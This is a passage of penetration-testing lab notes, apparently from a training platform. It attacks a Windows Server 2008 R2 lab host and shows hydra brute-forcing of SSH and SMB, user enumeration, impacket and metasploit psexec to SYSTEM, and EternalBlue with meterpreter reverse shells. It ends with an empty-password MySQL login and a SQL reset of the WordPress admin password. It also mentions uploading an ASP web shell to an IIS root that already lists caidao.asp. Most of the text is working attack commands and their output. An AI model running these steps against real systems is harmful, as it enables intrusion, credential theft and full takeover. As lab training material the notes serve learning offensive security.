125 Data connection already open; Transfer starting.
10-28-21  06:22AM       <DIR>          aspnet_client
10-28-21  06:19AM                   28 caidao.asp
10-28-21  06:18AM                34251 hahaha.jpg
10-28-21  06:18AM              1116928 index.html
10-28-21  06:18AM              2439511 seven_of_hearts.html
10-28-21  06:18AM               384916 six_of_diamonds.zip
10-28-21  06:22AM               184946 welcome.png
226 Transfer complete.

```

In this case, authentication is successful and as a result, we are able to view the content of the FTP directory, which in this case, appears to be the directory of the Microsoft IIS web server.

This means that we can make changes to the web app being hosted on Microsoft IIS.

Alternatively, we can also generate and upload an .asp reverse shell or web shell to the directory of the Microsoft IIS web server in order to gain remote access to the target system.


---

#### Targeting OpenSSH    

**bruteforce SSH credentials with hydra**

```bash
root@attackdefense:~# hydra -l vagrant -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://10.4.18.58
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-12 00:08:50
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1009 login tries (l:1/p:1009), ~64 tries per task
[DATA] attacking ssh://10.4.18.58:22/
[STATUS] 181.00 tries/min, 181 tries in 00:01h, 833 to do in 00:05h, 16 active
[STATUS] 167.00 tries/min, 501 tries in 00:03h, 513 to do in 00:04h, 16 active
[22][ssh] host: 10.4.18.58   login: vagrant   password: vagrant
```


**login using ssh credentials with metasploit `auxiliary/scanner/ssh/ssh_login` **

```
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > options 

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

msf6 auxiliary(scanner/ssh/ssh_login) > setg RHOSTS 10.4.18.58
RHOSTS => 10.4.18.58
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME vagrant
USERNAME => vagrant
msf6 auxiliary(scanner/ssh/ssh_login) > set PASSWORD vagrant
PASSWORD => vagrant
msf6 auxiliary(scanner/ssh/ssh_login) > run

[*] 10.4.18.58:22 - Starting bruteforce
[+] 10.4.18.58:22 - Success: 'vagrant:vagrant' 'Microsoft Windows Server 2008 R2 Standard 6.1.7601 Service Pack 1 Build 7601'
[*] SSH session 1 opened (10.10.22.2:42823 -> 10.4.18.58:22 ) at 2024-02-12 00:15:16 +0530
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) > sessions 

Active sessions
===============

  Id  Name  Type           Information  Connection
  --  ----  ----           -----------  ----------
  1         shell windows  SSH root @   10.10.22.2:42823 -> 10.4.18.58:22  (10.4.18.58)

```


---

#### Targeting SMB    

**bruteforce SMB credentials with hydra**

```bash
root@attackdefense:~# hydra -l administrator -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://10.4.18.58 -I
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-12 00:25:29
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 1009 login tries (l:1/p:1009), ~1009 tries per task
[DATA] attacking smb://10.4.18.58:445/
[445][smb] host: 10.4.18.58   login: administrator   password: vagrant
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-12 00:25:56


root@attackdefense:~# hydra -l vagrant -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://10.4.18.58
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-12 00:26:19
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 1009 login tries (l:1/p:1009), ~1009 tries per task
[DATA] attacking smb://10.4.18.58:445/
[445][smb] host: 10.4.18.58   login: vagrant   password: vagrant
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-12 00:26:46
```

now we can authenticate via RDP with this credentials because rdp is enabled


**enumerate smb shares **

```bash
root@attackdefense:~# smbclient -L 10.4.18.58 -U vagrant
Enter WORKGROUP\vagrant's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.


root@attackdefense:~# smbmap -u vagrant -p vagrant -H 10.4.18.58 
[+] IP: 10.4.18.58:445  Name: demo.ine.local                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  READ, WRITE     Remote Admin
        C$                                                      READ, WRITE     Default share
        IPC$                                                    NO ACCESS       Remote IPC

```


**enumerate other accounts on the target with enum4linux**

```bash
root@attackdefense:~# enum4linux -u vagrant -p vagrant -U 10.4.18.58 
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Mon Feb 12 00:34:35 2024

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.4.18.58
RID Range ........ 500-550,1000-1050
Username ......... 'vagrant'
Password ......... 'vagrant'
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ================================================== 
|    Enumerating Workgroup/Domain on 10.4.18.58    |
 ================================================== 
[+] Got domain/workgroup name: WORKGROUP

 =================================== 
|    Session Check on 10.4.18.58    |
 =================================== 
[+] Server 10.4.18.58 allows sessions using username 'vagrant', password 'vagrant'

 ========================================= 
|    Getting domain SID for 10.4.18.58    |
 ========================================= 
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 =========================== 
|    Users on 10.4.18.58    |
 =========================== 
index: 0x1 RID: 0x1f4 acb: 0x00000010 Account: Administrator    Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0x2 RID: 0x3f3 acb: 0x00000010 Account: anakin_skywalker Name: (null)    Desc: (null)
index: 0x3 RID: 0x3ef acb: 0x00000010 Account: artoo_detoo      Name: (null)    Desc: (null)
index: 0x4 RID: 0x3f1 acb: 0x00000010 Account: ben_kenobi       Name: (null)    Desc: (null)
index: 0x5 RID: 0x3f6 acb: 0x00000010 Account: boba_fett        Name: (null)    Desc: (null)
index: 0x6 RID: 0x3f0 acb: 0x00000010 Account: c_three_pio      Name: (null)    Desc: (null)
index: 0x7 RID: 0x3f9 acb: 0x00000010 Account: chewbacca        Name: (null)    Desc: (null)
index: 0x8 RID: 0x3f2 acb: 0x00000010 Account: darth_vader      Name: (null)    Desc: (null)
index: 0x9 RID: 0x3f8 acb: 0x00000010 Account: greedo   Name: (null)    Desc: (null)
index: 0xa RID: 0x1f5 acb: 0x00000215 Account: Guest    Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xb RID: 0x3ee acb: 0x00000010 Account: han_solo Name: (null)    Desc: (null)
index: 0xc RID: 0x3f7 acb: 0x00000010 Account: jabba_hutt       Name: (null)    Desc: (null)
index: 0xd RID: 0x3f4 acb: 0x00000010 Account: jarjar_binks     Name: (null)    Desc: (null)
index: 0xe RID: 0x3fa acb: 0x00000010 Account: kylo_ren Name: (null)    Desc: (null)
index: 0xf RID: 0x3f5 acb: 0x00000010 Account: lando_calrissian Name: (null)    Desc: (null)
index: 0x10 RID: 0x3ec acb: 0x00000010 Account: leia_organa     Name: (null)    Desc: (null)
index: 0x11 RID: 0x3ed acb: 0x00000010 Account: luke_skywalker  Name: (null)    Desc: (null)
index: 0x12 RID: 0x3e9 acb: 0x00000211 Account: sshd    Name: sshd privsep      Desc: (null)
index: 0x13 RID: 0x3ea acb: 0x00000210 Account: sshd_server     Name: sshd server account       Desc: (null)
index: 0x14 RID: 0x3e8 acb: 0x00000210 Account: vagrant Name: vagrant   Desc: Vagrant User

user:[Administrator] rid:[0x1f4]
user:[anakin_skywalker] rid:[0x3f3]
user:[artoo_detoo] rid:[0x3ef]
user:[ben_kenobi] rid:[0x3f1]
user:[boba_fett] rid:[0x3f6]
user:[chewbacca] rid:[0x3f9]
user:[c_three_pio] rid:[0x3f0]
user:[darth_vader] rid:[0x3f2]
user:[greedo] rid:[0x3f8]
user:[Guest] rid:[0x1f5]
user:[han_solo] rid:[0x3ee]
user:[jabba_hutt] rid:[0x3f7]
user:[jarjar_binks] rid:[0x3f4]
user:[kylo_ren] rid:[0x3fa]
user:[lando_calrissian] rid:[0x3f5]
user:[leia_organa] rid:[0x3ec]
user:[luke_skywalker] rid:[0x3ed]
user:[sshd] rid:[0x3e9]
user:[sshd_server] rid:[0x3ea]
user:[vagrant] rid:[0x3e8]
enum4linux complete on Mon Feb 12 00:34:35 2024

```


**enumerate other accounts on the target with metasploit ` auxiliary/scanner/smb/smb_enumusers`**

```bash
msf6 auxiliary(scanner/ssh/ssh_login) > use auxiliary/scanner/smb/smb_enumusers
msf6 auxiliary(scanner/smb/smb_enumusers) > options 

Module options (auxiliary/scanner/smb/smb_enumusers):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   DB_ALL_USERS  false            no        Add all enumerated usernames to the database
   RHOSTS        10.4.18.58       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   SMBDomain     .                no        The Windows domain to use for authentication
   SMBPass                        no        The password for the specified username
   SMBUser                        no        The username to authenticate as
   THREADS       1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_enumusers) > setg SMBUSER vagrant
SMBUSER => vagrant
msf6 auxiliary(scanner/smb/smb_enumusers) > setg SMBPASS vagrant
SMBPASS => vagrant
msf6 auxiliary(scanner/smb/smb_enumusers) > run

[+] 10.4.18.58:445        - VAGRANT-2008R2 [ Administrator, anakin_skywalker, artoo_detoo, ben_kenobi, boba_fett, chewbacca, c_three_pio, darth_vader, greedo, Guest, han_solo, jabba_hutt, jarjar_binks, kylo_ren, lando_calrissian, leia_organa, luke_skywalker, sshd, sshd_server, vagrant ] ( LockoutTries=0 PasswordMin=0 )
[*] 10.4.18.58:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```


**login to the target with psexec**

```bash
root@attackdefense:~# python3 psexec.py administrator@10.4.18.58
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.4.18.58.....
[*] Found writable share ADMIN$
[*] Uploading file XzAijzKt.exe
[*] Opening SVCManager on 10.4.18.58.....
[*] Creating service JiNO on 10.4.18.58.....
[*] Starting service JiNO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


**login to the target with metasploit `exploit/windows/smb/psexec`**

```bash
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > options 

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                10.4.18.58       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                  	          no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.22.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/smb/psexec) > setg SMBUSER vagrant
SMBUSER => vagrant
msf6 exploit(windows/smb/psexec) > setg SMBPASS vagrant
SMBPASS => vagrant
msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.10.22.2:4444 
[*] 10.4.18.58:445 - Connecting to the server...
[*] 10.4.18.58:445 - Authenticating to 10.4.18.58:445 as user 'vagrant'...
[*] 10.4.18.58:445 - Selecting PowerShell target
[*] 10.4.18.58:445 - Executing the payload...
[+] 10.4.18.58:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.4.18.58
[*] Meterpreter session 2 opened (10.10.22.2:4444 -> 10.4.18.58:50110 ) at 2024-02-12 00:45:51 +0530

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```


**login to the target system with Eternal blue vulnerability**

because this machine is windows 2008 R2 and smb is enabled on it, so we can exploit it with Eternal blue vulnerability without any credentials 

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.4.18.58       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target m
                                             achines.
   SMBPass        		           no        (Optional) The password for the specified username
   SMBUser        		           no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machi
                                             nes.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.22.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.22.2:4444 
[*] 10.4.18.58:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.4.18.58:445        - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (64-bit)
[*] 10.4.18.58:445        - Scanned 1 of 1 hosts (100% complete)
[+] 10.4.18.58:445 - The target is vulnerable.
[*] 10.4.18.58:445 - Connecting to target for exploitation.
[+] 10.4.18.58:445 - Connection established for exploitation.
[+] 10.4.18.58:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.4.18.58:445 - CORE raw buffer dump (51 bytes)
[*] 10.4.18.58:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 10.4.18.58:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
[*] 10.4.18.58:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
[*] 10.4.18.58:445 - 0x00000030  6b 20 31                                         k 1             
[+] 10.4.18.58:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.4.18.58:445 - Trying exploit with 12 Groom Allocations.
[*] 10.4.18.58:445 - Sending all but last fragment of exploit packet
[*] 10.4.18.58:445 - Starting non-paged pool grooming
[+] 10.4.18.58:445 - Sending SMBv2 buffers
[+] 10.4.18.58:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.4.18.58:445 - Sending final SMBv2 buffers.
[*] 10.4.18.58:445 - Sending last fragment of exploit packet!
[*] 10.4.18.58:445 - Receiving response from exploit packet
[+] 10.4.18.58:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.4.18.58:445 - Sending egg to corrupted connection.
[*] 10.4.18.58:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.4.18.58
[+] 10.4.18.58:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.4.18.58:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.4.18.58:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 3 opened (10.10.22.2:4444 -> 10.4.18.58:50156 ) at 2024-02-12 00:54:04 +0530

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```


---

#### Targeting MySQL Database Server    


```bash
root@attackdefense:~# nmap 10.4.26.40 -p3306 -sV
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-12 01:13 IST
Nmap scan report for demo.ine.local (10.4.26.40)
Host is up (0.0095s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.20-log

```


**bruteforce Mysql credentials with metasploit `auxiliary/scanner/mysql/mysql_login`**

```bash
msf6 > use auxiliary/scanner/mysql/mysql_login
msf6 auxiliary(scanner/mysql/mysql_login) > options 

Module options (auxiliary/scanner/mysql/mysql_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   true             no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD          vagrant          no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            10.4.18.58       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             3306             yes       The target port (TCP)
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME          vagrant          no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf6 auxiliary(scanner/mysql/mysql_login) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/mysql/mysql_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6 auxiliary(scanner/mysql/mysql_login) > run

[+] 10.4.18.58:3306       - 10.4.18.58:3306 - Found remote MySQL version 5.5.20
[-] 10.4.18.58:3306       - 10.4.18.58:3306 - LOGIN FAILED: root:vagrant (Incorrect: Access denied for user 'root'@'ip-10-10-22-2.ec2.internal' (using password: YES))
[+] 10.4.18.58:3306       - 10.4.18.58:3306 - Success: 'root:'
[*] 10.4.18.58:3306       - Scanned 1 of 1 hosts (100% complete)

```

we can login to mysql with root and no password


We can select the **wordpress** database by running the following command:

**Command:**

```
use wordpress;
```

After selecting the **wordpress** database, we can display the tables stored within the database by running the following command:


**Command:**

```
show tables;
```


We can view the various WordPress user accounts in the **wp_users** table by running the following command:

**Command:**

```
select * from wp_users;
```


From this point, we can copy the password hashes displayed in the **user_pass** column. Alternatively, we can also change the password for the **admin** user so that we can login to the WordPress site being hosted on the WAMP server we identified in an earlier lab.

This can be done by running the following command:

**Command:**

```
UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';
```


We can now navigate to the WordPress site via a browser by accessing the following URL:

**URL:**

```
http://<TARGET-IP>/8585/wordpress/wp-admin
```

You will now be prompted to login, you can login with the username **admin** and the password **password123** as shown in the following screenshot.


 


We have been able to successfully gain access to the MySQL database server and modify the WordPress **admin** user account password consequently gaining administrative control over the WordPress site.
